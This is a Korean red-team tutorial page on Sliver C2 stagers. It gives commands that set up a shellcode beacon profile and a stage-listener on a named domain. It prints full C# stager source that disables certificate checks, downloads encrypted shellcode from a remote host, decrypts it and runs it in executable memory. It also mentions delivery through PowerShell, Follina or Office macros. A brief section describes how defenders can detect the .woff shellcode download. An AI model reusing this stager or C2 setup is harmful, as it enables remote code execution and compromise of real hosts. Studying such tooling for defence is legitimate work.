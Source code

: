 # 스테이저 (Stager) 사용

슬리버 C2의 에이전트는 PE 바이너리로 생성할 경우 약 10MB 정도의 큰 크기를 갖는다. 또한 슬리버를 통해 생성한 바이너리의 경우 이미 AV/EDR 솔루션들에게 시그니처를 당했기 때문에 정적 탐지에 걸릴 확률이 높다. 마지막으로, 타겟이 `.exe` PE 바이너리 파일을 다운 받아 실행시키는 초기 침투 방법은 탐지 확률이 높아 2000년대 이후로 기피되고 있다. &#x20;

이런 문제점들을 해결하기 위해 슬리버 C2에서는 스테이저(Stager)를 사용한다. 스테이저란 먼저 타겟 호스트에서 실행된 뒤 메인 비컨 쉘코드를 다운받아 메모리상에서 실행하는 쉘코드다. 스테이저와 관련된 요소들은 다음과 같다.&#x20;

* 스테이저(stager): 슬리버 C2나 외부에서 메인 비컨 쉘코드를 다운받아 메모리상에서 실행시켜주는 쉘코드&#x20;
* 스테이저-리스너(stager-listener): 스테이저가 방문해 메인 비컨 쉘코드를 다운 받을 리스너&#x20;
* 프로필(profile): 메인 비컨 쉘코드 프로파일&#x20;

이외에도 슬리버 C2 프레임워크가 만들어주는 스테이저를 사용하지 않고 스스로 직접 커스텀 스테이저를 만들수도 있다. 이 경우 다음과 같은 방법으로 메인 비컨이 실행된다.&#x20;

1. 커스텀 스테이저가 C2 서버(실제론 리다이렉터)의 스테이저-리스너에 방문해 메인 비컨 쉘코드를 바이트 배열 포멧으로 받아온다&#x20;
2. 메인 비컨 쉘코드를 가지고 있던 키와 IV로 복호화한다&#x20;
3. 메인 비컨 쉘코드를 인젝션 하거나 해당 프로세스에 로드해 실행한다&#x20;
4. 메인 비컨은 실행되어 실제 리스너에 방문해 비컨 활동을 시작한다

여기서 조금 헷갈리는 것은 실제 리스너와 스테이저-리스너가 같은 포트를 공유할 수 있다는 점이다. 확실히 알아보기 위해 실습을 해보자.&#x20;

### 실습&#x20;

먼저 메인 비컨의 쉘코드 프로파일을 생성해준다.&#x20;

```
# TODO - 공격 도메인이 아닌 간단한 http 실습 작성 

# 메인 비컨 쉘코드 프로필 생성 
profiles new beacon --http https://info.koreambtihealth.com:443 --format shellcode win-shellcode

# 스테이지 리스너 생성 
stage-listener --url https://info.koreambtihealth.com:443 -c /root/redteam/certbot/fullchain.pem -k /root/redteam/certbot/privkey.pem --profile win-shellcode
```

여기까지 실행하면 다음과 같은 것들이 준비된 것이다&#x20;

1. 메인 비컨 쉘코드를 만들기 위한 프로필 (양식/템플릿) - 메인 비컨은 https를 이용해 `info.koreambtihealth.com` 의 포트 443을 가진 메인 리스너로 콜백한다.&#x20;
2. 스테이저 리스너는 스테이저로부터 쉘코드를 공급하기 위해 만들어진 리스너다. 스테이저가 https를 이용해 `info.koreambtihealth.com` 의 포트 443로 방문하면, 메인 비컨의 쉘코드를 다운받도록 도와준다.&#x20;

### 스테이저&#x20;

스테이저 코드는 Sliver 공식문서 것을 사용한다. 추후 `Defense Evasion` 섹션에서 이 스테이저를 좀 더 고급스럽게 만들 것이지만, 일단은 간단하게 C# + PInvoke를 이용한 VirtualAlloc + Marshal.Copy + CreateThread + WaitForSingleObject 콤보를 사용한다.&#x20;

<details>

<summary>SliverStager.cs1</summary>

```csharp
using System;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace Sliver_stager
{
    class Program
    {
        private static string AESKey = "D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT";
        private static string AESIV = "8y/B?E(G+KbPeShV";
        private static string url = "https://<ip/FQDN>:<port>/test.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);
            shellcode = Decrypt(shellcode, AESKey, AESIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```

</details>

여기서 특이한 점은 바로 `private static string url = "https://<ip/FQDN>:<port>/test.woff";` 이 라인이다. `test.woff` 라는 파일을 만든 적이 없는데 이걸 왜 쓰는거지? 라고 궁금했었는데, `stage-listener` 는 기본적으로 클라이언트가 `*.woff` 라는 파일 확장자를 가진 파일을 요청하면 슬리버 쉘코드를 반환해주기에 사용한다.&#x20;

![](../../.gitbook/assets/sliver-stager.gif)



### 무기화&#x20;

커스텀 스테이저가 C#으로 만들어졌기 때문에 이를 파워쉘에서 불러올수도 있고, 이 파워쉘 코드를 Follina 나 MS Office 매크로 등에서 사용하는 것도 가능하다. 이에 관련해서는 `실행 (Execution)` 파트에서 다룬다.&#x20;



### 대응 방안&#x20;

특정 프로세스가 특정 도메인에 방문할 때 URL 주소 끝에 `.woff` 가 들어가있고, 반환된 `.woff` 파일이 암호화된, 혹은 알아볼 수 없는 raw binary data 일 경우, 그리고 그 크기가 8\~15MB 일 때 슬리버 쉘코드일 확률이 매우 높다.&#x20;

물론 이는 또 Malleable C2를 이용해 우회할 수 있지만, 이것은 다른 페이지에서 설명한다.&#x20;

그 외에는 초기 침투 단계와 실행 단계에서 막아내거나, 프로세스 인젝션 단계에서 막는 방법, 그리고 도메인 신뢰도 등을 이용해 수상한 도메인 접근을 시도하는 프로세스를 막는 방법 등이 존재한다.&#x20;



### 레퍼런스&#x20;

{% embed url="https://github.com/BishopFox/sliver/wiki/Stagers" %}
